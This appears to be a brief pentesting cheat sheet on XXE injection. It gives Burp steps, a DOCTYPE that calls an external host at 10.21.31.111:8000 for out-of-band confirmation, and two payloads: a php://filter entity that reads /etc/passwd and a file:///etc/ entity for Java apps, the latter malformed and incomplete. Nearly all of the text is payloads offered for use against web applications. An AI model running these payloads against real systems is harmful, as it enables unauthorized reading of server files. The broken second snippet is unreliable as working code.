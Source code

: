 
1. Use Convert to XML in Burp and modify the XML data
2. We can try changing the `Content-Type:` to `text/xml`
3. Add a doctype: `<!DOCTYPE test SYSTEM "http://10.21.31.111:8000/hello">`

 


### Examples

```sh
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY example SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd"> ]>
<data>&example;</data>
```

Might work in java based apps? https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity
```sh
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [<!ENTITY xxe SYSTEM "file:///etc/" >]
```


